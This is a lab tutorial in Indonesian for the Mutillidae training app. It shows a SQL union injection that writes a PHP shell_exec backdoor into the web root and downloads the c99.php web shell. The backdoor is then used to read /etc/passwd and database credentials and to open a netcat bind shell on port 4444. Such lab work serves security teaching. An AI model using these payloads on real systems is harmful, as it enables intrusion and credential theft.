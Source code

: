 ## Lesson 11 - SQL Injection Union Exploit \#4

### \# Mendownload c99.php (PHP SQL Injection)

* **Step 1** : Download file, lakukan command berikut
```
mkdir -p /root/backdoor
cd /root/backdoor/
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
ls -lrta
```
![](/assets/lesson-11/lesson11_1.JPG)

* **Step 2** : Unrar file dan gabungkan menjadi script, lakukan command berikut
```
unrar x stuff.rar
cat part1.txt part2.txt part3.txt > c99.php
cp c99.php c99.php.bkp
ls -lrta
```
![](/assets/lesson-11/lesson11_2.JPG)

* **Step 3** : Ubah header file php yang awalnya `<?` menjadi `<?php` kemudian file dan gabungkan menjadi script, lakukan command berikut
```
unrar x stuff.rar
cat part1.txt part2.txt part3.txt > c99.php
cp c99.php c99.php.bkp
ls -lrta
```
![](/assets/lesson-11/lesson11_2.JPG)


### \# Mendownload c99.php (PHP SQL Injection)

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **execute_command.php**

* **Step 5** : Melihat hasil operasi dengan command berikut pada OS Metasploitable `cat /var/www/mutillidae/execute_command.php` 

### \# Menggunakan Backdoor untuk pengamatan dasar

* **Step 1** : Buka halaman php yang sudah kita buat `http://10.151.36.64/mutillidae/execute_command.php`

* **Step 2** : Masukan command linux pada textbox tersebut `whoami; pwd; w`.
**whoami** : melihat username yang digunakan
**pwd** : melihat working directory
**w** : melihar user yang sedang login dan dikerjakan

* **Step 3** : Masukan command linux pada textbox tersebut `cat /etc/passwd` dan `netstat -nao | grep "0.0.0.0:"`.
**cat /etc/passwd** : melihat informasi untuk login, dengan field antara lain Username, Password Existance, User ID, Group ID, Gecos, Home Directory, and Shell
**netstat -nao | grep "0.0.0.0:"** : melihat koneksi port yang sedang berlangsung pada ip 0.0.0.0

Terlihat ada user-user yang potensial untuk diserang seperti user apache, mysql, dll.
Terlihat ada port-port yang biasa digunakan oleh suatu service yang potensial untuk diserang seperti user apache, mysql, dll.

### \# Menggunakan Backdoor untuk pengamatan Database

* **Step 1** : Masukan command linux pada textbox tersebut `ls | grep ".inc`. Hal ini dilakukan untuk mencari file berekstensi `.inc` di directory Mutillidae, yang disasar adalah username dan password database mysql.

Terlihat terdapat file `config.inc`, file ini diduga berisi konfigurasi database mysql.

* **Step 2** : Masukan command linux pada textbox tersebut `cat config.inc | grep -v "<?php"`. Hal ini dilakukan untuk melihat file sebab jika kita tidak gunakan `grep` web tidak akan mencetak nya karena file berisi script php

Terlihat host, username, password, dan nama database dari MySQL yang digunakan web Mutillidae

### \# Menggunakan Backdoor untuk pengamatan Netcat

* **Step 1** : Masukan command linux pada textbox tersebut `which nc; netstat -nao | grep 4444 | wc -l`.
**which nc** : melihat dimana netcat berada
**netstat -nao | grep 4444 | wc -l** : melihat jumlah semua koneksi ke port 4444

* **Step 2** : Masukan command linux pada textbox tersebut `mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`.
**mkfifo** : proses dapat saling berkomunikasi dilakukan melalui pipes. Pipes dapat dibuat dengan mengunakan perintah ini
**nc -l 4444** : meminta netcat untuk listen & allow connections di port 4444

Terlihat koneksi terus berputar hal ini manandakan port 444 sedang listen atau menunggu adanya koneksi/transfer data

* **Step 3** : Sebari langkah 2 berjalan, masukan command linux pada terminal Kali Linux `nc 10.151.36.64 4444`. Kemudian masukan command cli yang anda inginkan.












